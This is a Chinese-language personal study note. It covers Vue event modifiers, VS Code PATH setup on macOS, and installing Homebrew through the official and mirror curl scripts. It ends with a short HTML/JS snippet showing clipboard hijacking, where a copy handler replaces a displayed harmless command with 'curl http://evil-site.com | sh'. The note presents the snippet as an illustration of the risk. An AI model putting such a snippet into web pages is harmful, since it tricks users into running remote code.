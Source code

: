 ## vue 事件修饰符
```js
//阻止冒泡事件
        <button v-show="!del" @click.stop="handleClick">删除</button>
```
在事件处理程序中调用 event.preventDefault() 或 event.stopPropagation() 
是非常常见的需求。
尽管我们可以在方法中轻松实现这点，但更好的方式是：
方法只有纯粹的数据逻辑，而不是去处理 DOM 事件细节。
为了解决这个问题，Vue.js 为 v-on 提供了事件修饰符。
之前提过，修饰符是由点开头的指令后缀来表示的。

.stop
.prevent
.capture
.self
.once
.passive

<a v-on:click.stop="doThis"></a>


<form v-on:submit.prevent="onSubmit"></form>


<a v-on:click.stop.prevent="doThat"></a>


<form v-on:submit.prevent></form>



<div v-on:click.capture="doThis">...</div>



<div v-on:click.self="doThat">...</div>

##在mac上配置vscode的 path
F1 -> code 选择在PATH中配置vscode

#安装brew
/usr/bin/ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"
defeat！ - -
:443
源问题
/bin/zsh -c "$(curl -fsSL https://gitee.com/cunkai/HomebrewCN/raw/master/Homebrew.sh)"
victory!
选 1 就是中科大源
然后就是下载
安装 tree 文件 就是输出当前的目录树
brew install tree
exa ls的升级版
brew install exa

#看到一个东西 
这说明复制这个动作也是可以被捕获到的
```html
<div class="copyme">$ echo "伪装成普通命令"</div>
  <script>
    document.getElementById('copyme').addEventListener('copy', function (e) {
      e.clipboardData.setData('text/plain',
        'curl http://evil-site.com | sh ' // 复制了真实命令
      );
      e.preventDefault();
    });
  </script>
```
# 05 | 组件基础及组件注册
